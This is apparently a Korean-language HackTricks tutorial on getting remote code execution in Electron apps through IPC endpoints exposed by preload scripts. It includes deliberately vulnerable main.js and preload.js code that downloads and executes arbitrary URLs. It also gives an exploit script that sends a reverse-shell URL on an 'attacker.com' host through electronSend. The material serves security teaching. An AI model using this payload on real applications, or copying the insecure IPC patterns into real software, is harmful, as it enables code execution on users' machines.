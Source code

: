 # Electron contextIsolation RCE via IPC

{{#include ../../../banners/hacktricks-training.md}}

preload 스크립트가 main.js 파일에서 IPC 엔드포인트를 노출하면, 렌더러 프로세스가 이를 접근할 수 있으며, 취약할 경우 RCE가 가능할 수 있습니다.

**이 예제들은 대부분 여기에서 가져왔습니다** [**https://www.youtube.com/watch?v=xILfQGkLXQo**](https://www.youtube.com/watch?v=xILfQGkLXQo). 추가 정보는 비디오를 확인하세요.

## Example 0

[https://speakerdeck.com/masatokinugawa/how-i-hacked-microsoft-teams-and-got-150000-dollars-in-pwn2own?slide=21](https://speakerdeck.com/masatokinugawa/how-i-hacked-microsoft-teams-and-got-150000-dollars-in-pwn2own?slide=21)에서 가져온 예제 (이 슬라이드에서 MS Teams가 XSS에서 RCE로 어떻게 악용되었는지에 대한 전체 예제를 확인할 수 있으며, 이는 매우 기본적인 예제입니다):

<figure><img src="../../../images/image (9) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Example 1

`main.js`가 `getUpdate`를 수신 대기하고 **전달된 모든 URL을 다운로드하고 실행**하는 방법을 확인하세요.\
또한 `preload.js`가 **main에서 모든 IPC** 이벤트를 노출하는 방법도 확인하세요.
```javascript
// Part of code of main.js
ipcMain.on("getUpdate", (event, url) => {
console.log("getUpdate: " + url)
mainWindow.webContents.downloadURL(url)
mainWindow.download_url = url
})

mainWindow.webContents.session.on(
"will-download",
(event, item, webContents) => {
console.log("downloads path=" + app.getPath("downloads"))
console.log("mainWindow.download_url=" + mainWindow.download_url)
url_parts = mainWindow.download_url.split("/")
filename = url_parts[url_parts.length - 1]
mainWindow.downloadPath = app.getPath("downloads") + "/" + filename
console.log("downloadPath=" + mainWindow.downloadPath)
// Set the save path, making Electron not to prompt a save dialog.
item.setSavePath(mainWindow.downloadPath)

item.on("updated", (event, state) => {
if (state === "interrupted") {
console.log("Download is interrupted but can be resumed")
} else if (state === "progressing") {
if (item.isPaused()) console.log("Download is paused")
else console.log(`Received bytes: ${item.getReceivedBytes()}`)
}
})

item.once("done", (event, state) => {
if (state === "completed") {
console.log("Download successful, running update")
fs.chmodSync(mainWindow.downloadPath, 0755)
var child = require("child_process").execFile
child(mainWindow.downloadPath, function (err, data) {
if (err) {
console.error(err)
return
}
console.log(data.toString())
})
} else console.log(`Download failed: ${state}`)
})
}
)
```

```javascript
// Part of code of preload.js
window.electronSend = (event, data) => {
ipcRenderer.send(event, data)
}
```
악용:
```html
<script>
electronSend("getUpdate", "https://attacker.com/path/to/revshell.sh")
</script>
```
## Example 2

프리로드 스크립트가 렌더러에 `shell.openExternal`을 호출할 수 있는 방법을 직접 노출하면 RCE를 얻을 수 있습니다.
```javascript
// Part of preload.js code
window.electronOpenInBrowser = (url) => {
shell.openExternal(url)
}
```
## Example 3

preload 스크립트가 메인 프로세스와 완전히 통신할 수 있는 방법을 노출하면, XSS는 모든 이벤트를 보낼 수 있습니다. 이 영향은 메인 프로세스가 IPC 측면에서 무엇을 노출하는지에 따라 달라집니다.
```javascript
window.electronListen = (event, cb) => {
ipcRenderer.on(event, cb)
}

window.electronSend = (event, data) => {
ipcRenderer.send(event, data)
}
```
{{#include ../../../banners/hacktricks-training.md}}
